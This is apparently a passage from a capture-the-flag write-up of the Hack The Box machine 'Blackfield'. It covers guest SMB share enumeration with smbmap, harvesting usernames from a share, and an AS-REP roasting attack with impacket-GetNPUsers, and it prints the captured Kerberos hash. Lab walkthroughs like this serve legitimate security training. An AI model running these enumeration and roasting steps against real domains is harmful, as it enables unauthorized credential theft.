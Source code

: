 ## User
No intial creds were given, so we begin with enumerating SMB as guest.
Running smbmap with the guest user, we find that we have access to a share called `profiles`.
```
┌──(tsunami㉿coffee)-[~]
└─$ smbmap -u 'guest' -p '' -H 10.129.162.184         

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.129.162.184:445      Name: BLACKFIELD.local          Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                NO ACCESS       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
[*] Closed 1 connections 
```

Using smbclient, we connect to that share and find a list of usernames.
![capture-0](capture-0.PNG)
We can use these usernames to enumerate potential usernames on the domain controller
(an easier way is using kerbrute, but for the sake of learning I'm doing the intended method)
![capture-1](capture-1.PNG)
With a list of known usernames, we can perform a asrep-roast attack.
Putting all the usernames into a file, using `impacket-GetNPUsers`, we can perform a asrep-attack.
```
impacket-GetNPUsers -usersfile usernames.txt -dc-ip 10.129.162.184 'blackfield.local/'
```
Eventually, we find a roastable user `support`
![capture-2](capture-2.PNG)
```
$krb5asrep$23$support@BLACKFIELD.LOCAL:661cf18c9c8fc5c29575776b4d5079a2$033c241eb0f356695f815dbb25bedf2418fc832152860f092b26f245764ea72502093b4931e2fbf9af627f4f407ad84759d39e3167f328ec5efaabb51b99bf6534b1e35132bce9f670defeb18ceddc0a97fcdef9ec7d44b1ec1e33b58eaaa8f02ebbd4e06d0e40d570cae5c17618377b06805057266ececa36afd7ea01677e77b92eccf4632a6691fab62f438fa28b0b39f49d20d684b6efd80bef93092664c6fdafdbde47584b5bbe321708ed52abd8acfa0fbaa87e65e7e5a0def1c3e88bea62f8d5bb8b470ef091c8690b5fdd170637f923a612f0cbd87efaa0a80708a9a25189df96a1d6c8178b911f5aa58de170f6b5c665
```

